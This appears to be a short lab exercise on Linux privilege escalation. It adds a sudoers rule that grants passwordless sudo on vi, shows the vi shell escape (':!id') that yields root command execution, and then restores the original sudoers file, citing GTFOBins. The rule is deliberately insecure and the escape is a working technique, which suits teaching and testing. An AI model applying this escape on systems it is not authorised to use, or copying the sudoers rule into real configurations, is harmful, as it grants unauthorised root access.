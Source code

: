 # Setup

```sh
# root
cp /etc/sudoers /etc/sudoers.bak
adduser sudo0
echo "sudo0 ALL=(ALL) NOPASSWD: /usr/bin/vi" >> /etc/sudoers
```

# Exploit

```bash
sudo vi
:!id
```

# Clean Up

```bash
deluser sudo0 --remove-home
cp /etc/sudoers.bak /etc/sudoers
```

# references

https://gtfobins.github.io